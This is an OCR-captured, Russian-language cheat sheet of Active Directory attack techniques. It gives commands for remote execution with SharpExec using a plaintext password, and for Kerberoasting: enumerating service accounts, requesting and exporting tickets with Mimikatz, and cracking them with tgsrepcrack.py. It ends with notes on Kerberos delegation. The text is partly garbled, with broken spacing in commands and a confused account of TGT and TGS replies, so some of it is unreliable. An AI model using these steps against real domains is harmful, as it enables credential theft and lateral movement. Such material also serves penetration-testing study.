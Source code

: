 ```SharpExec.exe -m=psexec -i=192.168.1.10 -u=TargetUser -p=P@ssword! -d=TargetDomain -f=C:\users\user1\desktop\noPowershell-noargs.exe -e=C:\noPowershell-noargs.exe```
- хэши паролей учетных записей служб могут быть использованы для создания Серебряных билетов.
- представлен Тимом Медином на DerbyCon 2014.


Мы запрашиваем зашифрованный билет TGT с хешем krbtgt при запросе билета TGS (TGS-REQ).
TGS шифруется с использованием хеш-функции NTLM целевой службы (TGS-REP).
Мы можем запросить TGS в любой службе, и KDC ответит билетом TGT.

- Найти учетные записи служб:
GetUserSPNs
https://github.com/nidem/kerberoast/blob/master/GetUserSPNs.ps1

- PowerView:
Get-NetUser -SPN

Примечание: для приведенной выше команды вы должны знать, какие учетные записи пользователей являются администраторами домена!

- Модуль Active Directory (для поиска учетных записей служб krbtgt и priv).
Get-ADUser -Filter {ServicePrincipalName -ne "$ null"} -Properties ServicePrincipalName

- Запрос тикета:
Add-Type -AssemblyName System.IdentityModel New-Object System.IdentityModel. Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQL / win2016srv.lethallab.local: SQLEXPRESS"

- запросить билет с помощью PowerView:
Request-SPNTicket

- проверить, был ли предоставлен билет:
klist.exe

- Экспортировать все билеты, используя Mimikatz:
Invoke-Mimikatz -Command '"kerberos :: list / export"'
ls Взломать пароль

учетной записи службы:
python.exe. \ Tgsrepcrack.py. \ Passwords.txt '. \ 2-40a10000-labuser @ MSSQLvc ~ ops-win2016srv.lethallab.local ~ SQLEXPRESS-lethallab.local.kirbi '

Делегирование Kerberos:
- Делегирование Kerberos позволяет "повторно использовать учетные данные конечного пользователя для доступа к ресурсам, размещенным на другом сервере". Как сервер приложений или сервер базы данных. Обычно используется там, где требуется Kerberos Double Hop.
- Олицетворение входящего / аутентифицирующего пользователя необходимо для любого вида делегирования Kerberos.
- Делегирование Kerberos бывает двух типов:
    - Неограниченное (только опция до Server 2003)
    - Ограниченный

Как работает делегирование Kerberos:
- пользователь предоставляет учетные данные контроллеру домена
- DC возвращает TGT
- пользователь запрашивает TGS для веб-службы на веб-сервере
- DC предоставляет TGS.
- пользователь отправляет TGT и TGS на веб-сервер.
- учетная запись службы веб-сервера использует TGT пользователя для запроса TGS для сервера базы данных от DC.
- учетная запись службы веб-сервера подключается к серверу базы данных как пользователь.

Неограниченное делегирование:
если установлено для конкретной учетной записи службы, неограниченное делегирование позволяет делегирование любой службе на этом конкретном компьютере.
```